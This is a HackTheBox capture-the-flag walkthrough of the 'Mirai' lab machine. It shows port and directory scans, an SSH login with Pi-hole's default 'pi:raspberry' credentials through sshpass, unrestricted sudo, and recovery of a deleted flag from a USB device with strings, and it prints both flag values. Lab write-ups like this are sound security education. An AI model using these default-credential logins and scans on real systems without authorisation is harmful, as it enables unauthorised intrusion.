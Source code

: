 ```yaml
---
layout: post
title: Hackthebox Mirai Walkthrough
categories: HackTheBox
---
```


![placeholder](https://media.githubusercontent.com/media/inar1/inar1.github.io/master/public/images/2020-04-10/mirai-badge.png)

# Explanation
<a href="https://www.hackthebox.eu">Hackthebox</a> is a website which has a bunch of vulnerable machines in its own VPN.<br>
This is a walkthrough of a box `Mirai`.<br>

# Solution
## 1. Initial Enumeration
### TCP Port Scanning:
```shell
root@kali:~# nmap -p- 10.10.10.48 -sV -sC
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-10 09:35 EEST
Nmap scan report for 10.10.10.48
Host is up (0.033s latency).
Not shown: 65529 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey:
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp    open  domain  dnsmasq 2.76
| dns-nsid:
|_  bind.version: dnsmasq-2.76
80/tcp    open  http    lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
1050/tcp  open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
32400/tcp open  http    Plex Media Server httpd
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-cors: HEAD GET POST PUT DELETE OPTIONS
|_http-title: Unauthorized
32469/tcp open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.07 seconds
```

### Gobuster HTTP:
```shell
root@kali:~# gobuster dir -u http://10.10.10.48 -w /usr/share/seclists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.48
[+] Threads:        10
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/04/10 09:37:20 Starting gobuster
===============================================================
/admin (Status: 301)
/swfobject.js (Status: 200)
===============================================================
2020/04/10 09:37:36 Finished
===============================================================
```


## 2. Getting User
We found an admin console in `10.10.10.48/admin/`.<br>
The name of the service is `Pi-hole`.
![placeholder](https://media.githubusercontent.com/media/inar1/inar1.github.io/master/public/images/2020-04-11/2020-04-10-10-30-38.png)

The default password for `Pi-hole`is `pi:raspberry`.<br>
We can use it for the SSH login.
```shell
root@kali:~# sshpass -p raspberry ssh pi@10.10.10.48

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Apr 10 06:49:57 2020 from 10.10.14.32 

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed. 
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $
```

Now we got an user `pi`.<br>
`user.txt` is in a directory `/home/pi/Desktop`.
```shell
pi@raspberrypi:~ $ cat Desktop/user.txt 
ff837707441b257a20e32199d7c8838d
```


## 3. Getting Root
Using `sudo -l`, we can find out that we can run any command with root privilege.
```shell
pi@raspberrypi:~ $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
```

Change the user and go to `/root`.<br>
We have `root.txt` which says we don't have the flag here.
```shell
root@raspberrypi:~# cat root.txt 
I lost my original root.txt! I think I may have a backup on my USB stick...
```

Using `df -h`, we can find out `/dev/sdb` is mounted on `/media/usbstick`.
```shell
root@raspberrypi:~# df -h
Filesystem      Size  Used Avail Use% Mounted on
aufs            8.5G  2.8G  5.3G  34% /
tmpfs           100M  4.8M   96M   5% /run
/dev/sda1       1.3G  1.3G     0 100% /lib/live/mount/persistence/sda1
/dev/loop0      1.3G  1.3G     0 100% /lib/live/mount/rootfs/filesystem.squashfs
tmpfs           250M     0  250M   0% /lib/live/mount/overlay
/dev/sda2       8.5G  2.8G  5.3G  34% /lib/live/mount/persistence/sda2
devtmpfs         10M     0   10M   0% /dev
tmpfs           250M  8.0K  250M   1% /dev/shm
tmpfs           5.0M  4.0K  5.0M   1% /run/lock
tmpfs           250M     0  250M   0% /sys/fs/cgroup
tmpfs           250M  8.0K  250M   1% /tmp
/dev/sdb        8.7M   93K  7.9M   2% /media/usbstick
tmpfs            50M     0   50M   0% /run/user/999
tmpfs            50M     0   50M   0% /run/user/1000
```

Then, go to `/media/usbstick`.<br>
There is an interesting file `damnit.txt`.
```shell
root@raspberrypi:/media/usbstick# cat damnit.txt 
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

Sounds `root.txt` has been deleted already.<br>
We can find the flag by running `strings`.
```shell
root@raspberrypi:~# strings /dev/sdb
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
/media/usbstick
2]8^
lost+found
root.txt                                                                                         
damnit.txt                                                                                       
>r &                                                                                             
3d3e483143ff12ec505d026fa13e020b                                                                 
Damnit! Sorry man I accidentally deleted your files off the USB stick.                           
Do you know if there is any way to get them back?                                                
-James
```
